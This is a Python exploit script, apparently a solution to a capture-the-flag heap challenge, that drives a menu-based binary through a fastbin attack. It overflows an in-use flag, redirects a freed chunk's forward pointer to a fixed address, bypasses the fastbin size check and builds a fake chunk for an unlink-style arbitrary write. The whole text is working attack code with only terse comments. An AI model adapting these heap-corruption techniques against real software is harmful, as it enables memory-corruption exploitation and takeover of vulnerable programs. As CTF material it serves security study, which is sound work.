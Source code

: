 ```python

def overflow_benderinuse(inuse):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.send('9999' + inuse)


def write(where, what):
    change(1, p64(where))
    change(6, p64(what))


def exp():
    print "step 1"

    # add a fastbin chunk 0x20 and free it
    # so it is in fastbin, idx2->NULL
    add(2, 1)  # idx2
    remove(2)

    # overflow bender inuse with 1
    overflow_benderinuse('\x01')

    # change bender's fd to 0x603138, point to bender's size
    # now fastbin 0x20, idx2->0x603138->NULL
    change(2, p64(0x603138))

    # in order add bender again
    overflow_benderinuse('\x00')

    # add bender again, fastbin 0x603138->NULL
    add(2, 1)

    # in order to malloc chunk at 0x603138
    # we need to bypass the fastbin size check, i.e. set *0x603140=0x20
    # it is at Robot Devil
    add(3, 0x20)

    # trigger malloc, set tinny point to 0x603148
    add(1)

    # wheels must <= 3
    remove(2)
    remove(3)

    print 'step 2'

    # alloc Destructor size 60->0x50, chunk content 0x40
    add(6, 3)

    # alloc devil, size=20*7=140, bigger than fastbin
    add(3, 7)

    # edit destructor's size to 1000 by tinny
    change(1, p64(1000))

    # place fake chunk at destructor's pointer
    fakechunk_addr = 0x6030E8
    fakechunk = p64(0) + p64(0x20) + p64(fakechunk_addr - 0x18) + p64(
        fakechunk_addr - 0x10) + p64(0x20)
    fakechunk = fakechunk.ljust(0x40, 'a')
    fakechunk += p64(0x40) + p64(0xa0)
```